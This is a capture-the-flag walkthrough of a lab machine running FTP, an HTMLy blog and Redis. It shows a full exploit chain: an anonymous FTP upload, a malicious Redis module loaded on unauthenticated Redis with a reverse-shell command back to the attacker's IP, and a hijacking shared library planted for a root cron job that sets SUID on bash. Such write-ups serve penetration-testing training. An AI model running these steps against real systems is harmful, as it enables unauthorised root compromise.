






Writeup by wook413

# Enumeration

## Nmap

As always, I started with a comprehensive TCP scan of all 65,535 ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 02:16 UTC
Nmap scan report for 192.168.108.93
Host is up (0.046s latency).
Not shown: 65519 filtered tcp ports (no-response), 12 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 43.87 seconds
```

Once the ports were identified, I followed up with a targeted TCP scan.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 21,22,80,6379                                                        
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 02:21 UTC
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 100.00% done; ETC: 02:21 (0:00:00 remaining)
Nmap scan report for 192.168.108.93
Host is up (0.047s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.236
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 21:94:de:d3:69:64:a8:4d:a8:f0:b5:0a:ea:bd:02:ad (RSA)
|   256 67:42:45:19:8b:f5:f9:a5:a4:cf:fb:87:48:a2:66:d0 (ECDSA)
|_  256 f3:e2:29:a3:41:1e:76:1e:b1:b7:46:dc:0b:b9:91:77 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
| http-robots.txt: 11 disallowed entries 
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sybaris - Just another HTMLy blog
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
|_http-generator: HTMLy v2.7.5
6379/tcp open  redis   Redis key-value store 5.0.9
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 12.34 seconds
```

Lastly, I performed a UDP scan to check for any overlooked common services.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10      
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 02:23 UTC
Nmap scan report for 192.168.108.93
Host is up (0.061s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 1.95 seconds
```

# Initial Access

## FTP 21

The FTP service on port 21 allows anonymous login. I discovered a directory named `/pub` where I have write privileges. I confirmed this by uploading a test image. This write access will likely be a crucial pivot point for gaining initial access.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP
Connected to 192.168.108.93.
220 (vsFTPd 3.0.2)
Name (192.168.108.93:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -la
229 Entering Extended Passive Mode (|||10097|).
150 Here comes the directory listing.
drwxr-xr-x    3 0        0              17 Sep 04  2020 .
drwxr-xr-x    3 0        0              17 Sep 04  2020 ..
drwxrwxrwx    2 0        0               6 Apr 01  2020 pub
226 Directory send OK.

ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||10092|).
150 Here comes the directory listing.
drwxrwxrwx    2 0        0               6 Apr 01  2020 .
drwxr-xr-x    3 0        0              17 Sep 04  2020 ..
226 Directory send OK.

ftp> put cat.jpg
local: cat.jpg remote: cat.jpg
229 Entering Extended Passive Mode (|||10100|).
150 Ok to send data.
100% |*********************************************************************************************| 21914        8.33 MiB/s    00:00 ETA
226 Transfer complete.
21914 bytes sent in 00:00 (144.15 KiB/s)
```

## HTTP 80

I initiated my web discovery by running the Nmap `http-enum` script. I’ve found this often catches leads that standard directory bursting tools miss.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 02:26 UTC
Nmap scan report for 192.168.108.93
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
| http-enum: 
|   /robots.txt: Robots file
|   /icons/: Potentially interesting folder w/ directory listing
|_  /index/: Potentially interesting folder

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 230.06 seconds
```



The `robots.txt` file revealed several interesting directories.

```bash
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    <http://example.com/robots.txt>
# Ignored: <http://example.com/site/robots.txt>
#
# For more information about the robots.txt standard, see:
# <http://www.robotstxt.org/wc/robots.html>
#
# For syntax checking, see:
# <http://www.sxw.org.uk/computing/robots/check.html>

User-agent: *

# Disallow directories
Disallow: /config/
Disallow: /system/
Disallow: /themes/
Disallow: /vendor/
Disallow: /cache/

# Disallow files
Disallow: /changelog.txt
Disallow: /composer.json
Disallow: /composer.lock
Disallow: /composer.phar

# Disallow paths
Disallow: /search/
Disallow: /admin/

# Allow themes
Allow: /themes/*/css/
Allow: /themes/*/images/
Allow: /themes/*/img/
Allow: /themes/*/js/
Allow: /themes/*/fonts/

# Allow content imagespab
Allow: /content/images/*.jpg
Allow: /content/images/*.png
Allow: /content/images/*.gif
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.108.93>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 206]
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/Index                (Status: 200) [Size: 7870]
/admin                (Status: 302) [Size: 0] [--> /login]
/cache                (Status: 301) [Size: 236] [--> <http://192.168.108.93/cache/>]
/cgi-bin/             (Status: 403) [Size: 210]
/config               (Status: 403) [Size: 208]
/content              (Status: 301) [Size: 238] [--> <http://192.168.108.93/content/>]
/favicon.ico          (Status: 200) [Size: 1150]
/front                (Status: 301) [Size: 0] [--> /]
/humans.txt           (Status: 200) [Size: 1157]
/index                (Status: 200) [Size: 7870]
/lang                 (Status: 301) [Size: 235] [--> <http://192.168.108.93/lang/>]
/login                (Status: 200) [Size: 3046]
/logout               (Status: 302) [Size: 0] [--> /login]
/robots.txt           (Status: 200) [Size: 1154]
/sitemap.xml          (Status: 200) [Size: 505]
/system               (Status: 301) [Size: 237] [--> <http://192.168.108.93/system/>]
/themes               (Status: 301) [Size: 237] [--> <http://192.168.108.93/themes/>]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

`composer.json` provided specific version information; while it might be a rabbit hole, I’ve noted it for potential exploit research later.



I identified a login form at `/login` . By testing the form, I noticed inconsistent error messages. A random username returns “Username not found”, while the username “pablo” (found in the page footer) returns “Your username and password mismatch.” This confirms pablo is a valid user.




```
pablo
```




## Redis 6379

Moving to port 6379, I found the Redis server allows null authentication, granting me access without credentials.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ redis-cli -h $IP
192.168.108.93:6379> help
redis-cli 8.0.0
To get help about Redis commands type:
      "help @<group>" to get a list of commands in <group>
      "help <command>" for help on <command>
      "help <tab>" to get a list of possible help topics
      "quit" to exit

To set redis-cli preferences:
      ":set hints" enable online hints
      ":set nohints" disable online hints
Set your preferences in ~/.redisclirc
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script redis-info -p 6379
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-16 03:14 UTC
Nmap scan report for 192.168.108.93
Host is up (0.052s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.9 (64 bits)
| redis-info: 
|   Version: 5.0.9
|   Operating System: Linux 3.10.0-1127.19.1.el7.x86_64 x86_64
|   Architecture: 64 bits
|   Process ID: 906
|   Used CPU (sys): 2.129620
|   Used CPU (user): 1.689779
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 1.55M
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|   Client connections: 
|_    192.168.45.236

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 6.83 seconds
```

Following a “Load Redis Modue” exploit found on HackTricks, I attempted to compile a module for RCE.



I clone the git repository listed on the page. The compilation initially failed. I resolved this by adding the missing headers: `#include <string.h>` ,`#include <arpa/inet.h>` , and `#include <unistd.h>` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ git clone <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git>
Cloning into 'RedisModules-ExecuteCommand'...
remote: Enumerating objects: 494, done.
remote: Counting objects: 100% (117/117), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 494 (delta 101), reused 100 (delta 100), pack-reused 377 (from 1)
Receiving objects: 100% (494/494), 203.32 KiB | 2.82 MiB/s, done.
Resolving deltas: 100% (289/289), done.

┌──(kali㉿kali)-[~/Desktop/RedisModules-ExecuteCommand]
└─$ sudo make          
make -C ./src
make[1]: Entering directory '/home/kali/Desktop/RedisModules-ExecuteCommand/src'
make -C ../rmutil
make[2]: Entering directory '/home/kali/Desktop/RedisModules-ExecuteCommand/rmutil'
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o util.o util.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o strings.o strings.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o sds.o sds.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o vector.o vector.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o alloc.o alloc.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o periodic.o periodic.c
ar rcs librmutil.a util.o strings.o sds.o vector.o alloc.o periodic.o
make[2]: Leaving directory '/home/kali/Desktop/RedisModules-ExecuteCommand/rmutil'
gcc -I../ -Wall -g -fPIC -lc -lm -std=gnu99     -c -o module.o module.c
module.c: In function ‘DoCommand’:
module.c:18:29: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   18 |                 char *cmd = RedisModule_StringPtrLen(argv[1], &cmd_len);
      |                             ^~~~~~~~~~~~~~~~~~~~~~~~
module.c: In function ‘RevShellCommand’:
module.c:43:28: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   43 |                 char *ip = RedisModule_StringPtrLen(argv[1], &cmd_len);
      |                            ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:44:32: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   44 |                 char *port_s = RedisModule_StringPtrLen(argv[2], &cmd_len);
      |                                ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:59:17: warning: argument 2 null where non-null expected [-Wnonnull]
   59 |                 execve("/bin/sh", 0, 0);
      |                 ^~~~~~
In file included from module.c:4:
/usr/include/unistd.h:572:12: note: in a call to function ‘execve’ declared ‘nonnull’
  572 | extern int execve (const char *__path, char *const __argv[],
      |            ^~~~~~
ld -o module.so module.o -shared -Bsymbolic  -L../rmutil -lrmutil -lc 
make[1]: Leaving directory '/home/kali/Desktop/RedisModules-ExecuteCommand/src'
cp ./src/module.so .
                                                                                                                                          
┌──(kali㉿kali)-[~/Desktop/RedisModules-ExecuteCommand]
└─$ ls
LICENSE  Makefile  module.so  README.md  redismodule.h  rmutil  src
```

I uploaded the compiled `module.so` to the FTP `/pub` directory, loaded it into the Redis server, and successfully executed commands. From there, I established a reverse shell to my listener.

```bash
ftp> put module.so
local: module.so remote: module.so
229 Entering Extended Passive Mode (|||10097|).
150 Ok to send data.
100% |*********************************************************************************************| 47792      968.73 KiB/s    00:00 ETA
226 Transfer complete.
47792 bytes sent in 00:00 (238.81 KiB/s)
┌──(kali㉿kali)-[~/Desktop/RedisModules-ExecuteCommand]
└─$ redis-cli -h $IP
192.168.108.93:6379> module load /var/ftp/pub/module.so
OK
192.168.108.93:6379> system.exec "id"
"uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\\n"
192.168.108.93:6379> system.rev 192.168.45.236 80
```

# Shell as `pablo`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 80            
[+] Listening for reverse shells on 0.0.0.0:80 →  127.0.0.1 • 192.168.136.128 • 172.17.0.1 • 172.20.0.1 • 192.168.45.236
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from sybaris~192.168.108.93-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/sybaris~192.168.108.93-Linux-x86_64/2026_01_16-05_00_34-750.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
[pablo@sybaris /]$ whoami
pablo
[pablo@sybaris /]$ 
```

Found `local.txt`

```bash
[pablo@sybaris pablo]$ ls
local.txt
[pablo@sybaris pablo]$ cat local.txt
252...
```

# Privilege Escalation

While searching for priv-esc vectors, I noticed `/usr/local/lib/dev` is globally writable. This directory is also included in the `LD_LIBRARY_PATH` environment variable.



A system-wide cron job runs `/usr/bin/log-sweeper` every minute. When I attempted to execute this binary manually, it failed, citing a missing shared library: `utils.so`

```bash
[pablo@sybaris tmp]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
  *  *  *  *  * root       /usr/bin/log-sweeper
[pablo@sybaris tmp]$ log-sweeper
log-sweeper: error while loading shared libraries: utils.so: cannot open shared object file: No such file or directory
```

Since the cron job runs as root and searches for `utils.so` in the directory listed in `LD_LIBRARY_PATH` , I can hijack the execution flow. By placing a malicious `utils.so` in the writable `/usr/local/lib/dev` directory, the cron job will execute my code with root privileges.

I developed a malicious C library designed to set the SUID bit on `/bin/bash` .

```bash
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setuid(0);
	setgid(0);
	system("chmod +s /bin/bash");
}
┌──(kali㉿kali)-[~/Desktop]
└─$ gcc -o utils.so -shared -fPIC utils.c
utils.c: In function ‘hijack’:
utils.c:9:9: error: implicit declaration of function ‘setresuid’ [-Wimplicit-function-declaration]
    9 |         setresuid(0,0,0);
      |         ^~~~~~~~~
                
```

After adding `#include <sys/types.h>` to fix compilation errors, I moved the library to the target directory.

```bash
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setgid(0);
	setuid(0);
	system("chmod +s /bin/bash");
}
┌──(kali㉿kali)-[~/Desktop]
└─$ gcc -o utils.so -shared -fPIC utils.c

┌──(kali㉿kali)-[~/Desktop]
└─$ ls -l utils.*
-rw-rw-r-- 1 kali kali   238 Jan 16 06:13 utils.c
-rwxrwxr-x 1 kali kali 15528 Jan 16 06:13 utils.so
[pablo@sybaris tmp]$ mv utils.so /usr/local/lib/dev/utils.so
[pablo@sybaris tmp]$ cd /usr/local/lib/dev
[pablo@sybaris dev]$ ls -la
total 16
drwxrwxrwx  2 root  root     22 Jan 16 01:15 .
drwxr-xr-x. 4 root  root     30 Sep  7  2020 ..
-rw-rw-r--  1 pablo pablo 15528 Jan 16 01:13 utils.so
```

# Shell as `root`

After waiting a minute for the cron job to trigger, I verified that `/bin/bash` now has the SUID bit set. I can not spawn a root shell.

```bash
[pablo@sybaris dev]$ ls -la /bin/bash
-rwsr-sr-x. 1 root root 964536 Mar 31  2020 /bin/bash
[pablo@sybaris dev]$ /bin/bash -p
bash-4.2# whoami
root
```

Found `proof.txt`

```bash
bash-4.2# ls -la
total 24
dr-xr-x---.  3 root root 141 Jan 15 23:02 .
dr-xr-xr-x. 17 root root 244 Sep  4  2020 ..
lrwxrwxrwx.  1 root root   9 Sep  4  2020 .bash_history -> /dev/null
-rw-r--r--.  1 root root  18 Dec 28  2013 .bash_logout
-rw-r--r--.  1 root root 176 Dec 28  2013 .bash_profile
-rw-r--r--.  1 root root 176 Dec 28  2013 .bashrc
-rw-r--r--.  1 root root 100 Dec 28  2013 .cshrc
drwxr-----.  3 root root  19 Sep  4  2020 .pki
-rw-------.  1 root root  33 Jan 15 23:02 proof.txt
-rw-r--r--.  1 root root 129 Dec 28  2013 .tcshrc

bash-4.2# cat proof.txt
b6a...
```